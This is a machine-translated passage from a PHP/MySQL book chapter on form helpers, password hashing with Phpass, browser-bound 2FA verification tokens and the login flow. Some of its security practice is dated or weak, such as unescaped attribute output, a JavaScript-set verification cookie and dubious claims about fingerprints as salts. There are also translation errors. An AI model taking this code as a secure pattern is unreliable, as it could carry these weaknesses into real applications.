[图 6-9](#_Fig9) 。具有外键引用的成员表单

使用`Form`类，处理外键的复杂性可以通过`Form::foreign_key`方法来处理，如[清单 6-9](#list9) 所示。

***[清单 6-9](#_list9)*** 。`Form::foreign_key`方法

```php
function foreign_key($fldfk, $fldvis, $label = null, $len = 50) {
    $vfk = isset($this->vals[$fldfk]) ? $this->vals[$fldfk] : '';
    $this->hidden($fldfk, $vfk);
    $fld = "{$fldfk}_label";
    $this->label($fld, $label, true);
    $v = isset($this->vals[$fldvis]) ?
      htmlspecial($this->vals[$fldvis]) : '';
    echo "<input id=$fld type=text size=$len name=$fld
      value='$v' readonly>";
    echo "<button class=button type=button
      onclick='ChooseSpecialty(\"$fldfk\");'>
      Choose...</button>";
    echo "<button class=button type=button
      onclick='ClearField(\"$fldfk\");'>
      Clear</button>";
}
```

传入了两个字段:`$fldfk`是外键字段(如`specialty_id), and $fldvis`是被引用表中的字段(如`name`)将可见。正如我在[第 5 章](5.html)的“带有外键的表单”一节中所解释的，假设数据是通过两个表的连接来检索的，因此引用表中的字段是可用的。我在[第五章](5.html)中描述的使用`$fldfk`作为隐藏字段的`id`和`{$fldfk}_label`作为可见字段的`id`的技术，以及按钮调用的两个 JavaScript 函数也出自那里。(它们已经被修改为使用`transfer`函数，因此它们的数据通过 POST 发送；你可以在本书的源代码/下载区的`www.apress.com`看到详细内容。)

复选框

清单 6-10 中的[方法`Form::checkbox`非常简单，但是它必须说明在 MySQL 中如何处理开/关开关。最直接的方法是使字段类型`tinyint`(值为 0 或 1)不可为空(所有非外键字段都应如此)，默认值为 0。表单字段被设计为将空(缺失、零长度字符串或 0)视为未选中，也将字符 0 视为未选中，因为 PDO 查询函数将所有值都表示为字符串。因此，如果您将字段设置为可空，PHP 中的一个`null`值将使复选框保持未选中状态。](#list10)

***[清单 6-10](#_list10)*** 。`Form::checkbox`方法

```php
function checkbox($fld, $label, $break = true) {
    $this->label($fld, $label, $break);
    $checked = (empty($this->vals[$fld]) ||
      $this->vals[$fld] === '0') ? '' : 'checked';
    echo "<input id=$fld type=checkbox name=$fld
      value=1 $checked>";
}
```

注意属性`value=1`,如果复选框被选中，则将其设置为值。如果不勾选，则根本不会出现在`$_POST`数组中，所以`DbAccess::update`会在`insert`或`update`语句中将其设置为`NULL`。如果它是可空的，那没问题，但是如果不是，就需要在调用`DbAccess::update:`之前用这样的代码将它设置为 0

```php
if (empty($_POST['premium']))
    $_POST['premium'] = 0;
```

因为它不知道哪些字段是布尔型的，所以它自己不能这样做。

单选按钮和菜单

单选按钮和下拉菜单都提供了多种选择，在 MySQL 列中处理它们的自然方式是使用 type `enum`。可以通过`information_schema`从数据库本身获取值显示在表单上，但是这太麻烦了，所以`Form::radio`和`Form::menu`方法将值作为传入的数组。该数组应该具有与`enum`相同的值，尽管顺序没有区别。

这两种方法如[清单 6-11](#list11) 所示。对于单选按钮，每个按钮都有相同的名称，所选按钮的值就是该元素在`$_POST`数组中的值。对于菜单来说，`select`元素有名字，被选中的`option`决定了它的值。如果元素的值是`vals`数组中字段的值，则单选按钮的`checked`属性或选项的`selected`属性存在。我选择将标签放在每个复选框的右边，并将它们水平放置。

***[清单 6-11](#_list11)*** 。`Form::radio`和`Form::menu`方法

```php
function radio($fld, $label, $value, $break = true) {
    if ($break)
        echo '<p class=label>';
    $st = isset($this->err_flds[$fld]) &&
      $this->err_flds[$fld] == $value ?
      'style="color:red;"' : '';
    $checked = isset($this->vals[$fld]) &&
      $this->vals[$fld] == $value ? 'checked' : '';
    echo <<<EOT
    <input type=radio name=$fld value='$value' $checked>
    <label class=label for=$fld $st>$label</label>
EOT;
}

function menu($fld, $label, $values, $break = true,
  $default = null) {
    $this->label($fld, $label, $break);
    echo "<select id=$fld name=$fld>";
    echo "<option value=''></option>";
    if (isset($this->vals[$fld]))
        $curval = $this->vals[$fld];
    else
        $curval = $default;
    foreach ($values as $v)
        echo "<option value='$v' " .
          ($curval == $v ? "selected" : "") . ">$v</option>";
    echo "</select>";
}
```

日期

日期由 MySQL `date`类型表示，值的形式为 YYYY-MM-DD(例如，2013-06-10)。在表单上，可以键入日期，或者出现一个弹出日历，允许用户选择日期。弹出是用 jQuery UI `datepicker`控件实现的，定义在 jQuery UI JavaScript(见`jqueryui.com`)中，由`top.php` ( [第五章](5.html))包含在每个页面中。

如[清单 6-12](#list12) 所示，`Form::date`方法输出一个带有标签的文本字段，然后输出一些 JavaScript 将`datepicker`连接到该字段。

***[清单 6-12](#_list12)*** 。`Form::date`方法

```php
function date($fld, $label, $break = true) {
    $this->text($fld, $label, 10, 'YYYY-MM-DD', $break);
    echo <<<EOT
    <script>
        $(document).ready(function() {
            $('#$fld').datepicker({dateFormat: 'yy-mm-dd'});
        });
    </script>
EOT;
}
```

注意，`dateFormat`属性的`yy-mm-dd`值指定了一个四位数的年份，而不是两位数的年份(这将是一个单一的`y`)。

清单 6-13 显示了一个更完整的成员表单，这些额外的 MySQL 列被添加到成员表中。

```php
billing enum('month','year','recurring') not null default 'year',
premium tinyint(4) not null default '0',
contact enum('phone','email','mail','none') not null default 'email',
since date not null,
```

***[清单 6-13](#_list13)*** 。带有附加字段的成员表单

```php
protected function show_form($row) {
    $f = new Form();
    $f->start($row);
    $f->hidden('member_id', $row['member_id']);
    $f->text('last', 'Last Name:', 30, 'Last Name');
    $f->text('first', 'First:', 20, 'First Name', false);
    $f->text('street', 'Street:', 50, 'Street');
    $f->text('city', 'City:', 20, 'City');
    $f->text('state', 'State:', 10, 'State', false);
    $f->foreign_key('specialty_id', 'name', 'Specialty');
    $f->radio('billing', 'Monthly', 'month');
    $f->hspace(2);
    $f->radio('billing', 'Yearly', 'year', false);
    $f->hspace(2);
    $f->radio('billing', 'Recurring', 'recurring', false);
    $f->menu('contact', 'Contact:',
      array('phone', 'email', 'mail', 'none'), true, 'email');
    $f->checkbox('premium', 'Premium:', false);
    $f->date('since', 'Member Since:', false);
    $f->button('action_save', 'Save');
    $f->end();
}
```

[图 6-10](#Fig10) 和 [6-11](#Fig11) 显示了正在使用的菜单和日期字段。


[图 6-10](#_Fig10) 。从联系人菜单中选择


[图 6-11](#_Fig11) 。从日期选择器弹出菜单中选择

正如我前面提到的，`Form::menu`和`Form::date`方法被设计成以 MySQL 要求的精确形式传递它们的值，以消除在更新数据库之前任何额外处理的需要。

密码强度反馈

正如我在“PHP 安全概述”一节中所说的，鼓励用户选择强密码并提供一些关于他们的候选密码有多好的反馈是一个好主意。一个好的方法是在密码字段旁边放置一个密码强度指示器，然后用计算评级的函数的结果在每次击键时更新它。你可以在本书的源代码/下载区找到我使用的函数`passwordStrength`(`www.apress.com`)。

[清单 6-14](#list14) 显示了输出 span(出现在密码字段旁边)的`Form::password_strength`方法，然后将 JavaScript 函数`PasswordDidChange`绑定到它，如[清单 6-15](#list15) 所示。

***[清单 6-14](#_list14)*** 。`Form:: password_strength`方法

```php
function password_strength($fld, $userid) {
    echo '<span id=password-strength></span>';
    echo <<<EOT
    <script>
    $('#$fld').bind('keydown', function() {
        PasswordDidChange('$fld', '$userid');
    });
    </script>
EOT;
}
```

***[清单 6-15](#_list15)*** 。`PasswordDidChange` JavaScript 函数

```php
function PasswordDidChange(id, username) {
    $('#password-strength').
      html(passwordStrength($('#' + id).val(), username));
}
```

传入用户 ID 只是为了给与之匹配的密码一个较弱的评级。我需要一部电影来展示密码强度计的运行，但至少图 6-12 是它的一个快照，对我在新密码栏中输入的任何内容进行评价。


[图 6-12](#_Fig12) 。表单更改密码

清单 6-16 显示了生成这个表单的代码。请注意密码字段和血糖仪之间的连接(粗体)。

***[清单 6-16](#_list16)*** 。文件`chgpassword.php`的一部分

```php
$form = new Form();
$form->start();
$form->text('pw-old', 'Existing Password:',
  50, 'Existing Password', true, true);
$form->text( 'pw-new1' , 'New Password:',
  50, 'New Password', true, true);
$form->password_strength( 'pw-new1' , $userid);
$form->text('pw-new2', 'Repeat:',
  50, 'New Password', true, true);
$form->button('action_set', 'Set');
$form->end();
```

用户表和密码管理

我在这一章开始的时候谈到了密码，主要是关于加盐和散列密码的需要，以及使用对每个站点都是唯一的强密码的重要性。现在，我想更详细地了解在 PHP/MySQL 应用程序中如何处理它们——特别是，如何处理忘记的密码和密码到期日期。我将展示`user`表，类似于我已经合并到实际应用程序中的表，当我展示时，我将使用发送给用户的验证令牌展示 2FA 所需的字段。

用户表

[图 6-13](#Fig13) 显示了 MySQL Workbench 显示的用户表。


[图 6-13](#_Fig13) 。用户表

前五个字段的目的应该很清楚。`userid`不是代理键；它是用户注册时选择的实际用户 ID。`email`地址用于一般通信目的，也用于在忘记密码时向用户发送临时密码。

如果用户传递 2FA，那么`verification_hash`列用于保存存储在 cookie 中的令牌的散列。如果用户登录时出现了这个令牌，并且它的散列(使用 Phpass)与存储的散列相匹配，则跳过 2FA 阶段 2。cookie 被设置为 30 天后过期，但是您可以很容易地更改它。或者，为了使事情真正安全，您可以完全跳过 cookie，要求每次登录都执行整个身份验证过程。我在“存储验证令牌”一节中展示了如何使用该字段的编程细节

`expiration`列保存密码的过期日期，而`extratime`列保存过期的时间(以秒为单位),在此期间允许用户选择新密码。超过该时间后，用户将被锁定，管理员必须介入，例如延长额外时间。在我展示的代码中，普通密码将在 10 年后过期，并有 30 天的额外时间，但是当用户忘记密码时发出的临时密码将过期时间设置为当前时间，并有 30 分钟的额外时间，这意味着临时密码只有 30 分钟的有效期。通常，通过电子邮件发送临时密码会有各种各样的安全问题，但是，请记住，我使用的是 2FA，所以临时密码只是用户需要的一部分。

`phone`和`phone_method`栏用于在 2FA 阶段 2 中通过文本消息或语音呼叫向用户发送验证令牌。

用户表约束

正如我在[第 4 章](4.html)的“约束”一节中解释的，最好将表约束的验证放在触发器中，以确保无论表如何更新，它们都是有效的。按照那一节中的方法，[清单 6-17](#list17) 显示了`addtriggers.php`程序中特定于表格的部分，用于安装`user`表格触发器和它们调用的存储过程。`add_triggers`函数本身在[清单 4-19](#list19) 中。在“错误处理”一节中，我展示了如何处理约束错误并将它们呈现给用户。现在，我只需要注意每个错误消息末尾的字段名称跟在`@`后面，这样表单上的字段就可以突出显示。

***[清单 6-17](#_list17)*** 。定义用户表的触发器

```php
try {
    $db = new DbAccess();
    $pdo = $db->getPDO();
    add_triggers($pdo, 'user', "
    if length(trim(userid)) = 0 then
        signal SQLSTATE value 'CK001'
        set MESSAGE_TEXT = 'User ID is required.@userid';
    end if;
    if length(trim(phone)) = 0 then
        signal SQLSTATE value 'CK001'
        set MESSAGE_TEXT = 'Phone is required.@phone';
    end if;
    if email not like '%_@__%.__%' then
        signal SQLSTATE value 'CK001'
        set MESSAGE_TEXT = 'Email is missing or invalid.@email';
    end if;
    if length(trim(last)) = 0 then
        signal SQLSTATE value 'CK001'
        set MESSAGE_TEXT = 'Last Name is required.@last';
    end if;
    if length(trim(phone_method)) = 0 then
        signal SQLSTATE value 'CK001'
        set MESSAGE_TEXT = 'SMS/Voice is required.@phone_method';
    end if;
    ");
}
catch (PDOException $e) {
    die(htmlentities($e->getMessage()));
}
```

安全类

一个`Security`类执行我刚刚描述的处理，以及密码和验证令牌的加盐/散列，我将一部分一部分地介绍这个过程，因为其中有很多内容。

散列和设置密码

首先，[清单 6-18](#list18) 显示了`Security::set_password`，它存储了一个散列密码。假设用户表中的行已经存在，并且其他需要的字段(姓名、电子邮件、电话等)已经存在。)已经输入。你可以看到正常密码十年后过期，临时密码已经过期但有 30 分钟的额外时间。还要注意，这个方法不会抛出异常，因为无论它们是什么，用户都不会看到，以防是攻击者。它们被记录下来(我在“记录错误”一节中展示了`log`函数)，然后`false`被返回，意思是“未设置，不关你的事，为什么不”

***[清单 6-18](#_list18)*** 。Security::set_password 方法

```php
function set_password($userid, $pass, $temp = false) {
    try {
        if (isset($_SESSION))
            unset($_SESSION['expired']);
        $this->store_verification($userid);
        $h = $this->hash($pass);
        $time = time() + ($temp ? 0 : 3600 * 24 * 365 * 10);
        $extra = $temp ? 1800 : 3600 * 24 * 30;
        $this->db->update('user', 'userid',
          array('password_hash', 'expiration', 'extratime'),
          array('userid' => $userid, 'password_hash' => $h,
          'expiration' => date('Y-m-d H:i:s', $time),
          'extratime' => $extra));
    }
    catch (\Exception $e) {
        log($e);
        return false;
    }
    return true;
}

protected function hash($pass) {
    $h = $this->hasher->HashPassword($pass);
    if (strlen($h) < 20) {
        log('Failed to process password');
        return null;
    }
    return $h;
}
```

`Security::hash`方法通过调用 Phpass 来加盐/散列密码。`Security`类的顶部定义如下:

```php
class Security {
    protected $hasher, $db;

function __construct() {
    $this->hasher = new \PasswordHash(8, false);
    $this->db = new DbAccess();
}
...
```

`PasswordHash` 是 Phpass 的构造函数。第一个参数指定散列函数要执行多少次迭代，不是为了使散列更好，而是为了减慢它。它是 2 的指数，所以 8 意味着 256 次迭代。第二个参数意味着我不需要散列来移植到其他系统。

由`PasswordHash::HashPassword`返回的 60 个字符的字符串包含 salt 和 hash，由 Phpass 以某种方式格式化。它的同伴方法`PasswordHash::CheckPassword`有两个参数，一个是用户输入的密码，另一个是由`PasswordHash::HashPassword`预先计算的 salt/hash，它知道如何处理组合的 salt/hash。因此，除了知道 salt/hash 是 60 个字符之外，没有必要知道它是如何构造的。

存储验证令牌

对靠近[清单 6-18](#list18) 顶部的`Security::store_verification`的调用将存储在数据库中的验证令牌的散列清零(列`verification_hash`)并删除存储令牌的 cookie，确保用户下次登录时需要完整的 2FA 阶段 2。[清单 6-19](#list19) 展示了这个过程。

***[清单 6-19](#_list19)*** 。`Security::store_verification`方法

```php
function store_verification($userid, $store = false)
{
    try {
        if ($store) {
            $time = 30;
            $token = bin2hex(openssl_random_pseudo_bytes(16));
            $h = $this->hash($this->screwed_down($token));
        }
        else {
            $time = -1;
            $token = '0';
            $h = '0';
        }
        $this->update_verification_hash($userid, $h);
        $this->set_cookie(VERIFICATION_COOKIE, $token, $time);
    }
    catch (\Exception $e) {
        log($e);
        return false;
    }
    return true;
}
```

第二个参数`false`意味着验证令牌将被撤销(强制完整的 2FA 阶段 2)，因此 cookie 时间被设置为–1(已经过期),`verification_hash`字段的值为 0。否则，将生成一个 16 字节的随机令牌，并从中计算出一个向下拧紧的散列。(接下来的几分钟，我会让你好奇这到底是什么。)散列然后由`Security::update_verification_hash`存储在数据库中，其实现应该不需要任何解释(如果需要，查看[第 5 章](5.html))。

```php
protected function update_verification_hash($userid, $h) {
    $this->db->update('user', 'userid',
      array('verification_hash'),
      array('userid' => $userid, 'verification_hash' => $h));
}
```

设置安全 cookie

如果你是一个有经验的 PHP 程序员，你可能想知道我是如何在事情进行到一半的时候设置一个 cookie 的。您需要在向页面输出任何内容之前设置 cookies，因为必须输出一个标题，对吗？不行，那太局限了；我用 JavaScript 来做。PHP 方法`Security::set_cookie` ( [清单 6-20](#list20) )是 JavaScript 函数`setCookie` ( [清单 6-21](#list21) )的包装器。

***[清单 6-20](#_list20)*** 。`Security::set_cookie`方法

```php
function set_cookie($name, $value, $expires, $path = null,
  $domain = null, $secure = null) {
    if ($path == null)
        $path = '/EPMADD';
    if ($domain == null)
        $domain = $_SERVER['HTTP_HOST'] == 'localhost' ?
          '' : $_SERVER['HTTP_HOST'];
    if ($secure == null)
        $secure = isset($_SERVER['HTTPS']);
    $sec = $secure ? 'true' : 'false';
    echo <<<EOT
    <script>
    setCookie('$name', '$value', $expires, '$path', '$domain',
      $sec);
    </script>
EOT;
    return true;
}

```

***[清单 6-21](#_list21)*** 。JavaScript `setCookie`函数

```php
function setCookie(name, value, expires, path, domain, secure) {
    var today = new Date();
    today.setTime(today.getTime());
    if (expires)
        expires = expires * 1000 * 60 * 60 * 24;
    var date = new Date(today.getTime() + (expires));
    document.cookie = name + '=' + escape(value) +
      ((expires) ? ';expires=' + date.toGMTString() : '') +
      ((path) ? ';path=' + path : '') +
      ((domain) ? ';domain=' + domain : '') +
      ((secure) ? ';secure' : '');
}

```

关于设置安全 cookies 的一些事情。

*   路径仅限于这个应用程序(EPMADD，以本书的标题命名)。不会为不在该树中的页面发送 cookie。
*   如果是`localhost`，你必须将域名设为空字符串；否则实际的域就可以了。
*   如果使用了 SSL (https ),那么 cookie 会被标记为安全的，这意味着它只与 https 请求一起发送。
*   还有一件事，帮助你阅读代码:参数`$expires`是从今天开始的几天。因此，参数 30 将 cookie 设置为 30 天后过期，这就是我们想要的验证令牌。

拧紧验证令牌

我承诺过我会通过拧紧验证令牌来达到目的。很难猜测它的随机值，但是，由于它的存在会导致 2FA Phase 2 被旁路，因此它必须非常安全。安全 cookies 是非常安全的，尤其是使用 SSL，但是我想更进一步，把它们绑在电脑上——把它们拧紧。理想情况下，我会用计算机的序列号将它们散列，以一种安全的、不可能伪造的方式提供给服务器，但是没有这样的能力。因此，我所做的是生成一个签名字符串，它不是计算机独有的，而是操作系统、浏览器版本和显示几何独有的。任何拥有令牌的人都必须从一台与令牌第一次散列时使用的机器完全相同的机器上提交 cookie。攻击者可以伪造签名，我想(他们可以做任何事情，对不对？)，但首先他们必须知道它是什么，而且，由于它不存储在任何地方，这很难。

它是这样工作的:文件`login.php`处理主登录表单，我在“登录和处理忘记的密码”一节中展示了它如果对照`user`表验证了密码，则控制传递给`loginverify.php`用于 2FA 阶段 2，特别是传递给这个`action_start`函数:

```php
protected function action_start() {
    echo <<<EOT
    <script>
    browser_signature('loginverify.php',
      {'action_start2': '1'});
    </script>
EOT;
 }
```

在[清单 6-22](#list22) 中的 JavaScript 函数`browser_signature`形成了浏览器的签名，由用户代理字符串和显示属性连接而成。(部分基于`browserspy.dk/screen.php`的代码。)然后，它将签名传递给作为第一个参数给出的 URL，第二个参数给出参数，并为签名增加一个额外的参数(`browser`)。JavaScript 传递该值是通过最后调用`transfer`来完成的。(将数据从 JavaScript 传递到 PHP 的唯一方式是通过 HTTP 请求。)

***[清单 6-22](#_list22)*** 。`browser_signature`功能

```php
function browser_signature(url, params) {
    var div = document.createElement('div');
    div.setAttribute('id', 'inch');
    div.setAttribute('style',
      'width:1in;height:1in;position:absolute');
    var t = document.createTextNode(' '); // might be needed
    div.appendChild(t);
    document.body.appendChild(div);
    var x = navigator.userAgent + '-';
    x += document.getElementById("inch").offsetWidth + '-' +
      document.getElementById("inch").offsetWidth;
    if (typeof(screen.width) == "number")
        x += '-' + screen.width;
    if (typeof(screen.height) == "number")
        x += '-' + screen.height;
    if (typeof(screen.availWidth) == "number")
        x += '-' + screen.availWidth;
    if (typeof(screen.availHeight) == "number")
        x += '-' + screen.availHeight;
    if (typeof(screen.pixelDepth) == "number")
        x += '-' + screen.pixelDepth;
    if (typeof(screen.colorDepth) == "number")
        x += '-' + screen.colorDepth;
    params['browser'] = x;
    transfer(url, params);
}
```

例如，下面是我的 iMac 的签名字符串，它有一个 1920 x 1080 的屏幕:

```php
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/27.0.1453.93 Safari/537.36-96-96-1920-
1080-1871-1058-24-24
```

这是给我的 Windows 笔记本电脑的。

```php
Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64;
Trident/6.0; .NET4.0E; .NET4.0C; .NET CLR 3.5.30729; .NET CLR
2.0.50727; .NET CLR 3.0.30729; HPNTDFJS)-96-96-1600-900-1522-900-
24-24
```

正如你在`action_start`函数中看到的，传递给`browser_signature`的参数导致`action_start2`(在`loginverify.php`中)被执行。我在“验证登录(阶段 2)”一节中完整地展示了这个函数，但是现在这里是将签名放入`$_SESSION`数组的部分:

```php
protected function action_start2() {
    $_SESSION['browser'] = $_POST['browser'];
    ...
}
```

现在签名可以连接到验证令牌，这就是`Security::screwed_down`(由`store_verification`、[清单 6-19](#list19) 调用)所做的:

```php
protected function screwed_down($token) {
    return $token . $_SESSION['browser'];
}
```

当然，`Security::screwed_down`也被调用来对照存储值检查存储的验证令牌。实际上，签名就像一个盐，只是它更安全，因为它不被攻击者获得，因为它不与散列密码(或其他任何地方)一起存储。此外，salt 只对多重 salt/hash 有效，使得猜测效率较低；一种盐本身是没有价值的。

如果用户更新他或她的操作系统、浏览器或显示器，签名会改变，然后会发生完整的 2FA。这完全没关系。

从数据库获取散列值

既然我已经展示了如何存储密码和验证令牌，[清单 6-23](#list23) 展示了如何检索和检查它们，从`Security::get_hashes`开始，它从数据库中检索密码和验证令牌散列并确定密码是否过期。

***[清单 6-23](#_list23)*** 。`Security::get_hashes`方法

```php
protected function get_hashes($userid, &$password_hash,
  &$verification_hash, &$expired) {
    $expired = false;
    try {
        $stmt = $this->db->query('select password_hash,
          verification_hash, expiration, extratime
          from user where userid = :userid',
          array('userid' => $userid));
        if ($row = $stmt->fetch()) {
            $t = strtotime($row['expiration']);
            if ($t < time())
                $expired = true;
            if ($t + $row['extratime'] >= time()) {
                $password_hash = $row['password_hash'];
                $verification_hash = $row['verification_hash'];
                return true;
            }
        }
}
    catch (\Exception $e) {
        log($e);
    }
    $password_hash = $verification_hash = null;
    return false;
}
```

这两个散列通过第二个和第三个参数返回，第三个(`$expired`)指示密码是否过期。如果密码没有过期或者没有超过额外的时间，该方法返回`true`。正如我将在后面讨论登录代码时展示的，如果函数返回 true，用户可以继续操作，但是如果密码过期，将会出现一个修改密码的表单。如果函数返回`false`，则拒绝登录。

检查密码和验证令牌

`Security::check_password`，如[清单 6-24](#list24) 所示，检查密码是否有效。如果密码过期或错误，验证令牌被删除(调用`Security::store_verification`)。用户可能犯了一个简单的输入错误，或者可能是攻击者试图猜测密码。无论哪种方式，如果随后输入正确，完整的 2FA 阶段 2 将发生。(你看我找各种借口干掉验证令牌。)

***[清单 6-24](#_list24)*** 。`Security::check_password`方法

```php
function check_password($userid, $pass, &$expired) {
    if ($this->get_hashes($userid, $password_hash,
      $verification_hash, $expired) &&
      $this->hasher->CheckPassword($pass, $password_hash))
        return true;
    $this->store_verification($userid, 0);
    return false;
}
```

如果密码有效，登录代码接下来将检查 cookie 中传递给应用程序的验证令牌。这是由`Security::check_verification`完成的，如[清单 6-25](#list25) 所示。注意到`Security::get_hashes`的`$password_hash`和`$expired`参数被忽略了，因为它们已经被`Security::check_password`处理过了，cookie 中的令牌在对照存储的散列进行检查之前必须被拧紧。

***[清单 6-25](#_list25)*** 。`Security::check_verification`方法

```php
function check_verification($userid) {
    return isset($_COOKIE[VERIFICATION_COOKIE]) &&
      isset($_SESSION['browser']) &&
      $this->get_hashes($userid, $password_hash,
      $verification_hash, $expired) &&
      $this->hasher->CheckPassword(
      $this->screwed_down($_COOKIE[VERIFICATION_COOKIE]),
      $verification_hash);
}
```

这就结束了`Security`类，以及处理密码和验证令牌所需的所有基本方法。在下一节中，我将展示利用所有这些机制的登录代码。

登录并处理忘记的密码

我将假设用户、他们的密码和`user`表的其他列已经被填充，所以我可以专注于登录过程。

[图 6-14](#Fig14) 显示了登录过程的流程图。在这里，我将快速浏览一遍，但在展示实现它的代码时，我也会慢慢浏览。该过程从登录表单中的用户 ID 和密码开始([图 6-15](#Fig15) )。如果他们没事，2FA 第一阶段就完成了。如果没有，验证令牌被终止，生成一条错误消息，用户返回表单。


[图 6-14](#_Fig14) 。登录过程


[图 6-15](#_Fig15) 。登录表单

2FA 阶段 1 完成后，如果密码已经过期(但不是额外时间)，验证令牌将被终止。无论哪种方式，都会从 cookie 中检索令牌，使用浏览器签名进行哈希处理，并与存储的哈希进行比较(哈希可能已被杀死，因此比较将失败)。如果它们比较正常，则跳过 2FA 阶段 2，用户登录并进入第一个应用程序页面。

如果验证令牌不正常，2FA 阶段 2 继续。生成一个六位数的代码，发送到用户的手机上，然后在用户将其输入表单时进行检查。如果检查通过，2FA 第 2 阶段就完成了。如果它不检查，用户可以继续尝试。

2FA 第 2 阶段完成后，如果密码已过期，用户将转到更改密码页面。如果是当前页面，用户将转到第一个应用程序页面。

所有的低级处理都在`Security`类中。我将要展示的代码，从清单 6-25 的[开始，运行流程图。](#list25)

在我展示的代码中，允许 guesser 在流程图顶部的循环中循环任意次，只要他或她想从登录表单中循环；如果一个猜测是错误的，表单仍然在那里等待另一次尝试。在错误的猜测之后，最好通过人为的延迟来减缓这个过程，我就是这样做的，延迟两秒钟。

该流程图假设 2FA 阶段 2 是通过文本消息或语音呼叫执行的，我展示了第一个阶段的代码。然后我展示如何用 YubiKey 做第二阶段。

使用登录表单登录(阶段 1 )

我在图 5-17 中展示了登录表单，但现在它又出现了，在图 6-15 中，因为我现在要深入研究它。有一个新的注册按钮，新用户点击注册并获得用户 ID 和密码。

文件`login.php`开始如清单 6-26 中的[所示。注意，Login 按钮执行一个`pre_action`方法，这意味着它在任何输出被发送到浏览器之前被调用。这允许它启动一个会话。“忘记”和“注册”按钮具有正常的操作。还要注意 Register 按钮在表单之外。在`MyPage::request`末尾的消息代码是为了让这个文件可以被再次请求，但是带有一个消息。我一会儿会展示这个案例。](#list26)

***[清单 6-26](#_list26)*** 。login.php 文件的开始

```php
class MyPage extends Page {

protected function request() {
    $f = new Form();
    $f->start();
    $f->text('userid', 'User ID:', 50, 'User ID');
    $f->text('pw', 'Password:', 50, 'Password', true, true);
    $f->button('pre_action_login', 'Login');
    $f->button('action_forgot', 'Forgot', false);
    $f->end();
    $this->button('Register', null, 'account.php');
    if (isset($_POST['msg']))
        $this->message($_POST['msg']);
}

...

}

$page = new MyPage('Login', false);
if (isset($_COOKIE['EPMADD']) &&
    !isset($_POST['pre_action_logout']))
    $page->transfer('login.php',
      array('pre_action_logout' => 1));
else
    $page->go();
```

`MyPage`是用第二个参数`false`实例化的，如果你回头看看[清单 5-23](#list23) ，这意味着不启动任何会话——任何人都被允许访问登录页面，除非这个人至少输入了有效的用户 id 和密码，否则启动会话是没有意义的。因为没有会话，所以表单也没有 csrftoken，这意味着表单可以伪造(从这个应用程序生成的页面之外的地方提交)。没关系，因为只是登录页面，用户还没有登录。

接下来的几行处理了这样一种情况，即用户已经登录，但不知何故又访问了登录页面。应用程序中没有任何按钮可以做到这一点(页面底部的按钮用于注销*和*)，但是用户当然可以直接在浏览器的 URL 字段中输入“login.php”。这可能是攻击者正在做的事情，因此，作为预防措施，用户被注销。测试

```php
isset($_COOKIE['EPMADD'])
```

是判断会话是否处于活动状态的一种方式，而无需实际启动会话。因此，逻辑是:如果一个会话是活动的，并且用户通过某种方式到达这个页面，而不是通过一个动作`pre_action_logout`(正常的注销方式)，那么它是假的，并且用户被注销。未经测试

```php
!isset($_POST['pre_action_logout'])
```

代码将处于无限循环中。

不管怎样，抛开这些不谈，正常的事情是只调用`Page::go`来开始处理，如清单 5-24 中的[所示。请记住，在这种正常情况下，没有会话。](#list24)

假设用户输入用户 ID 和密码，然后单击登录按钮。这就转到了`MyPage::pre_action_login`，如清单 6-27 中的[所示，它使用安全类来完成真正的工作。](#list27)

***[清单 6-27](#_list27)*** 。MyPage::pre_action_login 方法

```php
protected function pre_action_login() {
    $userid = $_POST['userid'];
    $security = new Security();
    if ($security->check_password($userid, $_POST['pw'],
      $expired)) {
        $this->login_phase1($userid);
        if ($expired) {
            $_SESSION['expired'] = true;
            $security->store_verification($userid, 0);
        }
        $this->transfer('loginverify.php',
          array('action_start' => '1'));
    }
    else {
        Sleep(2);
        $this->transfer('login.php',
          array('msg' => 'User ID and/or password are invalid'));
    }
 }
```

这里的逻辑非常简单:如果密码正确，方法`Page::login_phase1`完成 2FA 阶段 1。如果密码过期(但不是延长的时间，因为`Security::check_password`返回了`true`，验证令牌被终止。由于正常密码十年不会过期，所以这很可能是临时密码，应该需要完整的 2FA 期。

如果用户 ID 或密码不正确，应用程序会休眠两秒钟，然后再给用户一次机会，以减缓猜测者的速度。即使有了快速连接和服务器，总等待时间也可能只有三秒钟左右，这意味着一分钟只能猜测 20 次，不足以让猜测一个不太好的密码变得可行。(每个请求大约三秒钟；攻击者仍然可以并行发出请求。我把处理这种可能性留给你们做练习。)

清单 6-28 中的`Page::login_phase1,`，启动了一个会话，如[第 5 章](5.html)的“PHP 会话”一节中所述，与这里的`Page::login method`非常接近，但是在这里，由于这只是第一阶段，用户并没有完全登录。没有设置`$_SESSION['userid']`，这将使用户完全登录，而只设置了`$_SESSION['userid_pending']`，这意味着登录不完全。为了安全起见，`$_SESSION['verification_code']`，它将在某个时候保存作为文本消息或语音呼叫发送给用户的代码，而`$_SESSION['userid']`未设置。

***[清单 6-28](#_list28)*** 。`Page::` login_phase1 方法

```php
protected function login_phase1($login) {
    $this->start_session();
    unset($_SESSION['verification_code']);
    unset($_SESSION['userid']);
    $_SESSION['userid_pending'] = $login;
    return true;
}
```

阶段 1 完成后，控制转到`loginverify.php`，进入阶段 2。如果用户 ID 或密码不正确，控制返回到该页面，并显示一条消息，由`MyPage::request`末尾的代码显示。

我将回到`login.php`来回顾一下“忘记”按钮的作用；首先，我将坚持登录过程，直到它完成。

HTTP 认证

暂时休息一下:PHP 登录表单并不是处理登录的唯一方式。毫无疑问，你已经注意到一些网站会在浏览器中弹出一个表格，类似于图 6-16 中的内容；这叫做 HTTP 认证。


[图 6-16](#_Fig16) 。浏览器显示的 HTTP 身份验证表单

您可以安排在您的 PHP 应用程序中使用 HTTP 身份验证，但是与您直接输出的 HTML 表单相比，它有一些缺点。

*   您不能控制表单的布局，例如，添加一个“忘记”按钮。
*   这个表单看起来不同于其他应用程序页面，它是通用的，没有用你的徽标、菜单栏等来装饰。由于您还没有进入应用程序，浏览器仍然显示您要离开的页面，这非常令人困惑，尤其是在所示的情况下。
*   输出和处理来自 HTTP 身份验证表单的响应的 PHP 代码很复杂，有些浏览器有一些奇怪的地方，您必须编写代码来解决。

所以，我的建议是做几乎所有网站都做的事情:使用普通的 HTML 表单登录。

验证登录(阶段 2)

